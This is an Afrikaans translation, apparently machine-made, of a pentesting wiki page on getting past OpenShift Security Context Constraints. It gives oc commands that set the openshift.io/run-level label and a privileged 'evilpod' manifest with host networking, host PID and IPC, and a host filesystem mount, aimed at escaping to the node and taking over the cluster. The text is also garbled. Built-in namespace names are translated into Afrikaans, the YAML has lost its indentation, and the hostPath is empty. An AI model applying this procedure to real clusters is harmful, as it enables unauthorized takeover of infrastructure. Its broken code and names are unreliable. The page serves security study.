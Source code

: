 # Openshift - SCC omseil

**Die oorspronklike skrywer van hierdie bladsy is** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Bevoorregte Naamruimtes

Standaard is SCC nie van toepassing op die volgende projekte nie:

* **standaard**
* **kube-stelsel**
* **kube-publiek**
* **openshift-node**
* **openshift-infra**
* **openshift**

As jy bakkies in een van hierdie naamruimtes ontplooi, sal geen SCC afgedwing word nie, wat die ontplooiing van bevoorregte bakkies of die koppel van die gasheer se lêersisteem moontlik maak.

## Naamruimte-etiket

Daar is 'n manier om die toepassing van die SCC op jou bakkie te deaktiveer volgens die RedHat-dokumentasie. Jy sal ten minste een van die volgende toestemmings nodig hê:

* Skep 'n Naamruimte en Skep 'n Bakkie in hierdie Naamruimte
* Wysig 'n Naamruimte en Skep 'n Bakkie in hierdie Naamruimte
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Die spesifieke etiket `openshift.io/run-level` stel gebruikers in staat om SCCs vir toepassings te omseil. Volgens RedHat-dokumentasie, wanneer hierdie etiket gebruik word, word geen SCCs afgedwing op alle peule binne daardie naamruimte nie, wat effektief enige beperkings verwyder.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Voeg Etiket By

Om die etiket in jou naamruimte by te voeg:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Om 'n naamspasie met die etiket te skep deur 'n YAML-lêer:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Nou moet alle nuwe peule wat geskep word in die naamspasie geen SCC hê nie

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

In die afwesigheid van SCC is daar geen beperkings op jou peuldefinisie nie. Dit beteken dat 'n skadelike peul maklik geskep kan word om te ontsnap na die gasheerstelsel.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Nou is dit makliker om voorregte te eskaleer om toegang tot die gasheerstelsel te verkry en gevolglik die hele groep oor te neem, deur 'cluster-admin' voorregte te verkry. Soek na die **Node-Post Exploitation** gedeelte op die volgende bladsy:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Aangepaste etikette

Verder, gebaseer op die teikensetup, kan sommige aangepaste etikette / annotasies op dieselfde manier as die vorige aanvalscenario gebruik word. Selfs al is dit nie daarvoor bedoel nie, kan etikette gebruik word om toestemmings te gee, te beperk of nie 'n spesifieke hulpbron te beperk nie.

Probeer om na aangepaste etikette te soek as jy sommige hulpbronne kan lees. Hier is 'n lys van interessante hulpbronne:

* Pod
* Implementering
* Naamspasie
* Diens
* Roete
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Lys van alle bevoorregte namespaces
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Gevorderde uitbuiting

In OpenShift kan die toestemming om 'n houer in 'n naamspasie met die `openshift.io/run-level` etiket te ontplooi, soos vroeër gedemonstreer, lei tot 'n reguit oorneem van die groep. Vanuit 'n groepinstellingsperspektief **kan hierdie funksionaliteit nie afgeskakel word** nie, aangesien dit inherent is aan OpenShift se ontwerp.

Nietemin kan maatreëls vir verligting soos **Open Policy Agent GateKeeper** voorkom dat gebruikers hierdie etiket instel.

Om GateKeeper se reëls te omseil en hierdie etiket in te stel om 'n groepsoorneem uit te voer, **sal aanvallers alternatiewe metodes moet identifiseer.**

## Verwysings

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
